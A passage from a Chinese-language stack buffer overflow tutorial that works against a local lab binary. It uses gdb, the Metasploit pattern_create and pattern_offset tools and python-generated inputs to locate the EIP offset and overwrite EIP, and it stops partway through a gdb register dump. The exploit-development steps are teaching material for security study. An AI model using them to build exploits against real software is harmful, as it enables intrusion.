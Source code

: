 如果我们输入 1500 个“U”（十六进制“55”），输入`info register`查看寄存器信息，我们可以从寄存器信息中看到，我们已经覆盖了 `EIP`的内容。`EIP` 指向下一条要执行的指令。

### 确定偏移量

> 偏移量用于确定覆盖缓冲区所需的字节数以及 `Shellcode` 周围有多少空间。

`Shellcode` 是16进制的机器码，其中包含我们希望 CPU 执行的操作指令。我们使用 `Metasploit` 框架，它有一个名为`pattern_create`的脚本，可以帮助我们确定到达 `EIP` 所需的确切字节数。能帮助我们确定偏移量。


```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500 > pattern.txt

cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5....Bx3Bx4Bx5Bx6Bx7Bx8Bx9
```

现在，不再用1500个`\x55`了，而是把这个文件内的内容传入。注意，以下代码中间有省略，你需要复制粘贴你生成的内容，并不包含省略号。

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"Aa0Aa1Aa2Aa3Aa4Aa5....Bx3Bx4Bx5Bx6Bx7Bx8Bx9" )')
```

然后观察输出，也可以输入`info register`查看寄存器

```shell
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
(gdb) info register
eax            0x1                 1
ecx            0xffffcfe0          -12320
edx            0xffffc8c8          -14136
ebx            0x33694232          862536242
esp            0xffffc700          0xffffc700
ebp            0x42346942          0x42346942
esi            0x56558eec          1448447724
edi            0xf7ffcb60          -134231200
eip            0x69423569          0x69423569
eflags         0x10286             [ PF SF IF RF ]

```

`EIP`内是`0x69423569`，和刚刚不一样了。我们可以使用另一个名为“`pattern_offset`”的 `MSF` 工具来计算前进到 `EIP` 所需的确切字符数（偏移量）。

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
```

确切的偏移量是`1036`。如果我们现在恰好使用这个字节数作为“U”的数目，那么我们应该就能准确地到达 `EIP`。为了检验正确性，我们可以使用1036个`\x55` 和4个`\x66`。

```shell
(gdb) run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1036 + b"\x66"*4 )')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/killua/Dev/Lab/StackOverFlow/demo $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1036 + b"\x66"*4 )')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
(gdb) info register
eax            0x1                 1
```